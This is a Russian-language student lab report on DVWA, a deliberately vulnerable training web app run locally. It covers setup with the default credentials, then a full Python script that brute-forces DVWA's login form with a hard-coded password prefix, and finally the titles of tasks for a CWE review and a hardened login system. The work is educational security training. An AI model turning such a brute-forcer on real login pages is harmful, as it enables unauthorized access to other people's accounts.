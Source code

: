 # SDLC_LAB_3_FarzievMT
**Предварительная подготовка**
Был скачан архив DVWA с официального ресурса на github.com, после чего он был установлен с использованием дистрибутивf для сборки локального веб-сервера XAMPP
![image](https://github.com/user-attachments/assets/dcc0da59-069f-46e1-827c-a9e87f4e568c)

Адрес: http://localhost/DVWA-master/login.php
![image](https://github.com/user-attachments/assets/e4547923-9971-4a80-a2f8-f612bd76712b)

После того как был совершен вход (логин-admin, пароль-password) был определен PHPSESSID, а также установлен "Security Level" = low
![image](https://github.com/user-attachments/assets/c130b6d2-c2d8-40e3-bdcd-3b44faa3fc02)

**Задания**
1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать [официальный ресурс](https://github.com/digininja/DVWA) или виртуальную машину Web Security Dojo)
Для уменьшения количества затраченного времени на подбор пароля было решено "помочь" программе и указать в коде, что пароль начинается на "passw". Данное решение было сделано исключительно в целях сокращения затраченного времени на подбор и для того, чтобы наглядно показать, что прогамма действительно выполняет свою функцию. 
```import itertools
import requests
import time

# Настройки
url = "http://localhost/DVWA-master/vulnerabilities/brute/"
username = "admin"
charset = 'abcdefghijklmnopqrstuvwxyz'
password_length = 8
prefix = "passw"  # Префикс для пароля
session = requests.Session()

# Устанавливаем cookie для авторизации
session.cookies.set("PHPSESSID", "70v501t8fnf3um8jfbdo2bo9fs")
session.cookies.set("security", "low")

def generate_passwords_with_prefix(prefix, length, charset):
    """Генератор паролей фиксированной длины с указанным префиксом."""
    remaining_length = length - len(prefix)
    for combination in itertools.product(charset, repeat=remaining_length):
        yield prefix + ''.join(combination)

def try_password(url, username, password):
    """Проверка пароля."""
    params = {
        'username': username,
        'password': password,
        'Login': 'Login'
    }
    try:
        response = session.get(url, params=params)
        return "Welcome to the password protected area" in response.text
    except requests.exceptions.ConnectionError as e:
        print(f"[-] Ошибка подключения: {e}")
        return False
    except requests.exceptions.RequestException as e:
        print(f"[-] Ошибка при запросе: {e}")
        return False

def main():
    start_time = time.time()
    print("[*] Начинаем подбор пароля...")
    
    # Генерация паролей и их проверка
    for password in generate_passwords_with_prefix(prefix, password_length, charset):
        print(f"[*] Пробуем пароль: {password}")
        if try_password(url, username, password):
            print(f"[+] Пароль найден: {password}")
            break
    else:
        print("[-] Пароль не найден.")

    end_time = time.time()
    print(f"[+] Время выполнения: {end_time - start_time:.2f} секунд")

if __name__ == "__main__":
    main()
```

Результат выполнения программы
![image](https://github.com/user-attachments/assets/b18e793e-3550-483d-bfbd-3c0c2c343154)

   
2. Проанализировать код и сделать кодревью, указав слабые места. Слабость уязвимого кода необходимо указать с использованием метрики CWE (база данных [cwe.mitre.org](http://cwe.mitre.org))

  
3. Разработать свою систему авторизации на любом языке, исключающий взможность подбора паролей разработнным переборщиком паролей в задании 1. Возможно исправление авторизации из dvwa.local Требования к системе авторизации
